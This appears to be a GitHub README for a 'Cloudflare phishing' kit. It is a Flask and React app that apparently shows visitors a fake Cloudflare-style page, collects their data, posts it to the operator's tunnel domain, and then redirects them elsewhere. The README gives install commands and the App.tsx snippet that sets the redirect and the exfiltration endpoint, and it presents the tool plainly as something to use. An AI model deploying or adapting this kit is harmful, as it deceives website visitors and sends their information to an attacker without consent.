 ![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-000000?style=for-the-badge&logo=flask&logoColor=white)
![React](https://img.shields.io/badge/React-20232A?style=for-the-badge&logo=react&logoColor=61DAFB)
![TypeScript](https://img.shields.io/badge/TypeScript-007ACC?style=for-the-badge&logo=typescript&logoColor=white)
![Tailwind CSS](https://img.shields.io/badge/Tailwind_CSS-38B2AC?style=for-the-badge&logo=tailwind-css&logoColor=white)
![Bun](https://img.shields.io/badge/Bun-000000?style=for-the-badge&logo=bun&logoColor=white)

# Cloudflare phishing
## That's useful thing for gathering meta-datas by using redirect in other sites.
---
### Getting start
- Installing dependencies
```bash
# In directory Frontend you have to install dependencies for bun
$ bun install

# In root directory, you have to install flask from requriments.txt
$ pip install -r requriments.txt
```
### CHANGES
- In directory Frontend, exists file App.tsx, you have to change below:
```js
// Redirect
setTimeout(() => {
      window.location.href = "http://<DOMAIN FOR REDIRECT>";
    }, 1000);

// Your tunnel
const response = await fetch(
      "http://<DOMAIN YOUR TUNNEL>",
      {
        method: "POST",
        headers: {
          "Content-Type": "application/json",
        },
        body: JSON.stringify(data),
      }
    );

```
![Cloudflare](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Faetoswire.com%2Fstorage%2Fclients%2Fclient-6590%2Fcloudflare-logo.png&f=1&nofb=1&ipt=f3aa7db60d7aff2b18233ec9b7657ca42488796ee5df52b2116aadb56b27bc3e)
